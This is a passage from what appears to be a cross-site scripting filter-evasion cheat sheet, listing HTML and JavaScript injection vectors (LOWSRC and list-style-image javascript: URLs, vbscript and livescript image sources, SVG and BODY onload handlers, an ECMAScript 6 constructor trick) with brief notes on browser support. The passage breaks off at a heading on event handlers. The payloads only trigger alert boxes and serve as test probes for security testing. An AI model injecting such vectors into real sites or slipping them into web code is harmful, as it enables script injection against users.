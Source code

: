 ## IMG Lowsrc

```html
<img LOWSRC="javascript:alert('XSS')" />
```

## List-style-image

Fairly esoteric issue dealing with embedding images for bulleted lists. This will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful cross site scripting vector:

```html
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
```

## VBscript in an Image

```html
<img src='vbscript:msgbox("XSS")' />
```

## Livescript (older versions of Netscape only)

```html
<img src="livescript:[code]" />
```

## SVG Object Tag

```html
<svg/onload=alert('XSS')>
```

## ECMAScript 6

```html
Set.constructor`alert\x28document.domain\x29
```

## BODY Tag

Method doesn't require using any variants of `javascript:` or `<SCRIPT...` to accomplish the XSS attack). Dan Crowley additionally noted that you can put a space before the equals sign (`onload=` != `onload =`):

```html
<BODY ONLOAD=alert('XSS')>
```

## Event Handlers

It can be used in similar XSS attacks to the one above (this is the most comprehensive list on the net, at the time of this writing). Thanks to Rene Ledosquet for the HTML+TIME updates.
